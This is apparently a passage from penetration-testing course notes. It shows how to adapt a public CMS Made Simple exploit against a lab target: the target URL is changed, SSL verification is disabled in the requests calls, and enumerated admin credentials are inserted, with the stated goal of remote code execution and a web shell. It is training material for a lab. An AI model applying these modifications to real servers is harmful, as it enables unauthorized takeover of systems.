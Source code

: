 Our plan is to adapt the generic public exploit to our target, obtain remote code execution, and ultimately upload a web shell that gives us control of the server
+ As we inspect the code, we realize the _base_url_ variable needs to be changed to match our environment
``` python
base_url = "http://192.168.1.10/cmsms/admin"
```

Will modify the IP address and the protocol to HTTPS to reflect our Debian VM target
``` python
base_url = "https://192.168.50.120/admin"
```

We also notice that, while browsing the target website, we're presented with a _SEC_ERROR_UNKNOWN_ISSUER_ error
+ This error indicates that the certificate on the remote host cannot be validated. We'll need to account for this in the exploit code

Specifically, the exploit is using the _requests_ Python library to communicate with the target. The code makes three POST requests on lines 34, 55, and 80:
``` python
...
    response  = requests.post(url, data=data, allow_redirects=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
...
```

Moreover, the official documentation ([https://requests.readthedocs.io/en/latest/user/advanced/](https://requests.readthedocs.io/en/latest/user/advanced/)) indicates that the SSL certificate will be ignored if we set the _verify_ parameter to "False".
``` python
...
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
...
```

Finally, we also need to change the credentials used in the original exploit to match those found during the enumeration process
+ These are defined in the _username_ and _password_ variables at lines 15 and 16, respectively
``` python
username = "admin"
password = "password"
```

We can easily replace these credentials.
``` python
username = "admin"
password = "HUYfaw763"
```
